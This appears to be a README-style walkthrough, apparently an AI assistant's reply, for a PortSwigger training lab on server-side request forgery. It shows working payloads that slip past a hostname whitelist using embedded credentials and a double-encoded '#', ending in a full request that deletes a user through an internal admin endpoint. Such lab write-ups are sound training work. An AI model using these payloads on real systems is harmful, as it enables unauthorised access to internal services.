 Great catch, Kaouthar! 🕵️‍♀️
You’re working on the advanced SSRF lab:

🎯 **Lab: SSRF with flawed cross-domain whitelist**
This lab involves **bypassing a flawed URL parser** that validates only the **hostname**, not the **actual target IP**.

---

Here's the breakdown + full **README-style explanation** based on your Burp request and the PortSwigger solution 👇

---

# README — SSRF with Flawed Cross-Domain Whitelist

---

## 🧠 Overview

This lab contains a **server-side request forgery (SSRF)** vulnerability. The server whitelists trusted domains like `stock.weliketoshop.net`, but applies the validation **improperly** by only inspecting the **hostname** portion of the URL.

Your goal is to **bypass the whitelist**, target `localhost`, and trigger an internal action by exploiting how **URL parsers treat embedded credentials and ports**.

---

## 🎯 Objective

* Bypass hostname validation and access the internal admin interface.
* Use SSRF to send a request to:

  ```
  http://localhost/admin/delete?username=carlos
  ```
* Solve the lab by deleting the user `carlos`.

---

## 🧪 Tools

* Burp Suite (Proxy + Repeater)
* Knowledge of:

  * URL parsing behavior
  * Embedded credentials in URLs (`user@host`)
  * Double URL encoding tricks

---

## 🚀 Exploitation Steps

### 1. ⛔ Try a basic internal URL

```http
stockApi=http://127.0.0.1/admin/delete?username=carlos
```

🛑 Rejected — the whitelist blocks it.

---

### 2. ✅ Use a whitelisted domain with credentials

```http
stockApi=http://username@stock.weliketoshop.net/
```

✅ Accepted — this proves the parser only checks `hostname` and allows embedded credentials.

---

### 3. ⛔ Try adding `#` in the username

```http
stockApi=http://localhost@stock.weliketoshop.net#@evil.com/
```

🛑 Rejected — URL parsing likely terminates at the fragment.

---

### 4. 🧠 Double encode the `#` (payload trick)

```http
http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
```

✅ This tricks the URL parser:

* `80%2523` becomes:

  * `%25` = `%`
  * `%2523` → `%23` → `#`
* Final parsed URL:

  ```http
  http://localhost:80#@stock.weliketoshop.net/
  ```

👀 The server **thinks the host is `stock.weliketoshop.net`**, but connects to **`localhost`**, which is before the `@`.

---

### 5. 📌 Final Working Request

```http
POST /product/stock HTTP/2
Host: <lab-id>.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

stockApi=http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
```

📸 Screenshot placeholder: 
![ssrf](https://github.com/Kabilala/ssrf/blob/main/lab7/lab7.png)

✅ If the SSRF is successful, the internal endpoint is triggered and the user `carlos` is deleted. The lab is marked as solved.
